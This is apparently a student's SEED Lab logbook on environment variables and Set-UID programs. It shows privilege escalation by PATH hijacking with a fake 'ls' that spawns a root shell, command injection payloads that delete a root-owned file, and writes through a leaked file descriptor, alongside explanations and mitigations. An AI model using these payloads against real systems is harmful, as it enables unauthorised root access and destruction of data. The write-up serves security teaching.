







## LOGBOOK 4 — Environment Variables & Set-UID (SEED Lab) 

This log document  includes exact commands, short technical explanations, and embedded screenshots from our run. Stored screenshots under `Loogbooks/images/`.

Support material: “Basic Concepts” slides and the SEED Lab “Environment Variable and Set-UID Program”.

---
## Question 1 — Tasks 1–6

### Task 1 — Manipulating environment variables

- List the environment:
  ```bash
  printenv PWD
  ```
- Define and remove variables (Bash builtins):
  ```bash
  export ANY_NAME="fsi.king"
  printenv ANY_NAME   # prints fsi.king
  unset ANY_NAME
  printenv ANY_NAME   # now empty
  ```

Explanation: Environment variables are NAME=value pairs inherited by processes and used by shells, the loader/linker, and applications. In Bash, `export` and `unset` are builtins.



---

### Task 2 — Inheritance across fork()

Steps:
- Build and run `myprintenv.c` as described.
- Step 1 (child prints):
  ```bash
  ./a.out > child.txt
  ```
- Step 2 (parent prints – swap comments in code):
  ```bash
  ./a.out > parent.txt
  ```
- Step 3 (compare):
  ```bash
  diff -u child.txt parent.txt
  # empty diff → identical files
  ```




Conclusion: files are identical (see screenshot), so the child inherits the parent’s environment at `fork()` time (the `environ` array is duplicated).


---

### Task 3 — Environment and execve()

Observations:
1) `execve("/usr/bin/env", argv, NULL)` → the new program receives an empty environment; `env` prints nothing.
2) `execve("/usr/bin/env", argv, environ)` → the new program inherits the caller’s environment.

Example commands:
```bash
gcc myenv.c -o myenv
./myenv                    # case 1: argv, NULL → empty
gcc myenv.c -o myenv       # edit code to pass environ
./myenv                    # case 2: argv, environ → full env
```

`execve` replaces the process image; the third argument is exactly the environment the new program sees.



---

### Task 4 — Environment and system()

Lab code summary:
```c
#include <stdio.h>
#include <stdlib.h>
int main(){ system("/usr/bin/env"); return 0; }
```

Observation: `system()` runs `"/bin/sh -c <cmd>"`. The shell is started with the caller’s environment via `execl()/execve()`. Therefore, `env` prints the same variables as the caller.

---

### Task 5 — Environment inside Set-UID programs

Program: print all variables from `environ`. Make it Set-UID root:
```bash
gcc foo.c -o foo
sudo chown root foo
sudo chmod 4755 foo
```

Prepare environment as a normal user and run:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export LD_LIBRARY_PATH=$HOME/.mylibs
export ANY_NAME=hello
./foo > env.txt
```

Findings:
- `PATH`, `HOME`, `USER`, our custom `ANY_NAME=hello`, etc. appear in the Set-UID program output.
- Many dangerous `LD_*` variables are sanitized/ignored by the dynamic loader for Set-UID execution; e.g., `LD_LIBRARY_PATH` did not affect privileged loading.

Snippet:
```
ANY_NAME=hello
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LD_LIBRARY_PATH=/home/seed/.mylibs   # sanitized for Set-UID
...
```

---

### Task 6 — Abusing PATH in a Set-UID that calls system("ls")

1) Ensure the shell used by `system()` keeps privileges
  - `/bin/sh` → `/bin/dash` drops EUID in SUID context. Temporarily link to `zsh` for the demo (restore at the end):
  ```bash
  sudo ln -sf /bin/zsh /bin/sh
  ```

2) Build the vulnerable Set-UID program
  ```c
  // victim_ls.c
  #include <stdlib.h>
  int main(){ system("ls"); return 0; }
  ```
  ```bash
  gcc victim_ls.c -o victim_ls
  sudo chown root:root victim_ls
  sudo chmod 4755 victim_ls
  ls -l victim_ls   # -rwsr-xr-x 1 root root ... victim_ls
  ```

3) Prepare a malicious `ls` and hijack PATH
  ```bash
  mkdir -p /home/seed/mal
  cat > /home/seed/mal/ls << 'EOF'
  #!/bin/sh
  echo "[*] Malicious ls running. EUID=$(id -u) USER=$(whoami)"
  echo "root_was_here" > /etc/ls_root_proof 2>/dev/null || echo "write to /etc failed"
  /bin/sh -p
  EOF
  chmod +x /home/seed/mal/ls

  export PATH=/home/seed/mal:$PATH
  which ls   # should be /home/seed/mal/ls
  ```
  
4) Exploit and verify privilege
  ```bash
  ./victim_ls
  # Expected output:
  # [*] Malicious ls running. EUID=0 USER=root (or USER=seed but EUID=0)
  # (spawns a root shell from /bin/sh -p)
  id; whoami
  ls -l /etc/ls_root_proof
  ```

Expected result: our `ls` runs with EUID=0, creates `/etc/ls_root_proof`, and gives a root shell. This happens because `system("ls")` invokes `/bin/sh -c ls`; the shell searches `PATH` and finds our `ls` first. With a shell that preserves privileges (zsh), the payload executes with root privileges.

---

## Question 2 — Task 8 (Step 1) — Command Injection in `catall.c`

### 1. Goal
Create a root‑owned file unreadable by user `seed` and, **without changing the provided C code**, abuse the Set-UID program `catall` (which currently uses `system()`) to delete that file via command injection.

### 2. Vulnerable Source (given)
```c
int main(int argc, char *argv[]) {
  char *v[3];
  char *command;
  if (argc < 2) { printf("Please type a file name.\n"); return 1; }
  v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
  command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
  sprintf(command, "%s %s", v[0], v[1]);
  system(command);          // Step 1 vulnerable variant
  // execve(v[0], v, NULL); // Step 2 secure variant 
  return 0;
}
```

### 3. Root Cause
`system()` executes `/bin/sh -c "<constructed string>"`. User input (`argv[1]`) is concatenated directly into that string. The shell interprets metacharacters (`;`, `&&`, `|`, backticks, `$()`, redirections) – enabling **command injection**.

### 4. Preparation — Create Protected Target
```bash
sudo -s
echo "TOP SECRET" > /etc/seed_secret_q2
chown root:root /etc/seed_secret_q2
chmod 600 /etc/seed_secret_q2
ls -l /etc/seed_secret_q2   # -rw------- root root
exit
cat /etc/seed_secret_q2      # Permission denied (as seed)
```

### 5. First Attempt on Shared Folder (Failure: nosuid)
```bash
gcc -o catall catall.c
sudo chown root:root catall
sudo chmod 4755 catall
ls -l catall        # shows root vboxsf; SUID bit present but mount is nosuid
./catall "/etc/seed_secret_q2; id; whoami; /bin/rm -f /etc/seed_secret_q2"
```
Output (summarized):
```
/bin/cat: /etc/seed_secret_q2: Permission denied
uid=1000(seed) ... euid=1000(seed)
rm: cannot remove ... Permission denied
```
Reason: VirtualBox shared folder (`vboxsf`) ignores SUID (`nosuid` mount option). EUID remains 1000 → no deletion.

### 6. Move to Native Filesystem & Reapply SUID
```bash
cp catall /home/seed/catall
cd /home/seed
sudo chown root:root catall
sudo chmod 4755 catall
ls -l catall   # -rwsr-xr-x 1 root root ... catall
```


### 7. Ensure Shell Does Not Drop Privileges
If `/bin/sh` points to `dash`, it discards effective root in SUID context. (Earlier tasks may have linked it to `zsh`)
```bash
sudo ln -sf /bin/zsh /bin/sh   # Temporarily (restore later!)
```

### 8. Exploit (Command Injection)
Minimal payload (just delete):
```bash
./catall "/etc/seed_secret_q2; /bin/rm -f /etc/seed_secret_q2"
```
Diagnostic payload (also prints privilege context):
```bash
./catall "/etc/seed_secret_q2; id; whoami; /bin/rm -f /etc/seed_secret_q2"
```
Observed successful output after moving to native FS:
```
TOP SECRET
uid=1000(seed) gid=1000(seed) euid=0(root) ...
root
```
File gone:
```bash
ls -l /etc/seed_secret_q2   # No such file or directory
```
Screenshots: 




### 9. Contrast with Step 2 (not mandatory exercise)
If we switch to:
```c
execve(v[0], v, NULL);
```
and run the same argument, `/bin/cat` receives a *single* filename containing semicolons. It treats it literally, failing to open it; no extra commands run. Attack fails because no shell parsing occurs. This demonstrates why `execve` is safer.

### 10. Principles (Slides Alignment)
| Concept | Illustration |
|---------|--------------|
| Least Privilege | Program retains root while handling untrusted input. |
| Trust Chain Break | Data merged into command string → code execution. |
| Shell Metacharacters | `;` splits commands enabling injection. |
| Environment Independence | Attack does not rely on PATH or env; pure command concatenation. |
| Defense in Depth | Removing shell (execve) nullifies this vector even without input sanitization. |


### 11. Key Takeaways
- Shell invocation in privileged context multiplies risk; *avoid system()*.
- Command injection can escalate privileges even when no environment trickery is possible.
- `execve` + strict validation = robust baseline.
- Mount semantics (`nosuid`) can hide or block exploitation; always test on proper filesystem.

---

## Question 3 — Task 9 (Capability Leaking)

### 1) Environment preparation

- Create the target file owned by root and world‑readable, but not writable by `seed`:
  ```bash
  cd /home/seed
  sudo sh -c 'echo "INIT" > /etc/zzz'
  sudo chown root:root /etc/zzz
  sudo chmod 0644 /etc/zzz
  ls -l /etc/zzz      # -rw-r--r-- 1 root root ...
  cat /etc/zzz        # shows INIT
  ```

- Vulnerable program summary (`cap_leak.c`): opens `/etc/zzz` with root (Set‑UID), prints the FD number, then permanently drops privileges with `setuid(getuid())` and `execve("/bin/sh")`. The already-open FD survives and is inherited by the shell.

- Build and make the binary Set‑UID root:
  ```bash
  gcc -o cap_leak cap_leak.c
  sudo chown root:root ./cap_leak
  sudo chmod 4755 ./cap_leak
  ls -l ./cap_leak    # -rwsr-xr-x 1 root root ...
  ```

Screenshot: 


### 2) Exploitation evidence

Run as a normal user:
```bash
./cap_leak
# expected first line: fd is 3  (the FD value may vary but is usually 3)
```
Inside the spawned shell (now running as user `seed` with dropped EUID), prove we can’t write normally:
```bash
id -u; whoami              # 1000 / seed
echo "TRY" >> /etc/zzz      # Permission denied
```

Write via the inherited file descriptor instead:
```bash
# optional: see where the FD points (use the number printed above, e.g., 3)
ls -l /proc/$$/fd/3        # -> ... -> /etc/zzz

# actually write through the FD
printf "seed wrote via FD at %s\n" "$(date)" >&3

# verify the last lines of the file
tail -n2 /etc/zzz

# reinforce proof of identity
id; whoami
```

Screenshot: 


### 3) Technical explanation

Capability leaking here means a privileged process acquires sensitive capabilities/resources while it still has root (e.g., open FDs to protected files) and then fails to dispose of them before dropping privileges. Although `setuid(getuid())` makes the effective UID non-privileged, the pre‑acquired capability (the open FD) remains usable.

Concretely:
- The program calls `open("/etc/zzz", O_RDWR | O_APPEND)` while EUID=0, obtaining a writable FD.
- It then calls `setuid(getuid())` and `execve("/bin/sh")`.
- File permissions are checked at `open()` time; subsequent `write(fd, ...)` does not re‑check the UID, only the FD’s access mode and file status.
- The FD is not `FD_CLOEXEC` and is not closed, so it survives the `execve()` into the shell. The user can redirect to it using `>&FD` and append to `/etc/zzz` despite being `seed`.

Timeline:
```
open() as root → valid FD (read/write, append)
setuid(getuid()) → drop to seed
execve("/bin/sh") → FD inherited
user uses printf >&FD → kernel writes via the still‑valid descriptor
```

### 4) Mitigations

- Close privileged FDs before dropping privileges or launching a shell:
  ```c
  close(fd);
  ```
- Ensure privileged FDs don’t cross `execve()`:
  ```c
  int flags = fcntl(fd, F_GETFD);
  fcntl(fd, F_SETFD, flags | FD_CLOEXEC);
  // or open(..., O_CLOEXEC)
  ```
- Principle of least privilege: drop privileges before opening files whenever possible; split privileged operations into a minimal helper.
- Avoid spawning shells; if needed, prefer `execve()`/`posix_spawn()` with controlled argv/env and explicit file-actions that close all unintended FDs.


### 5) Final evidence and conclusion

We demonstrated that although `cap_leak` drops privileges with `setuid(getuid())`, it leaks the capability to write to `/etc/zzz` via an already‑opened FD. The `tail` output confirms the write performed by user `seed`. Proper FD hygiene (`close`/`FD_CLOEXEC`) and dropping privileges before acquiring sensitive resources prevent this class of vulnerabilities.

---

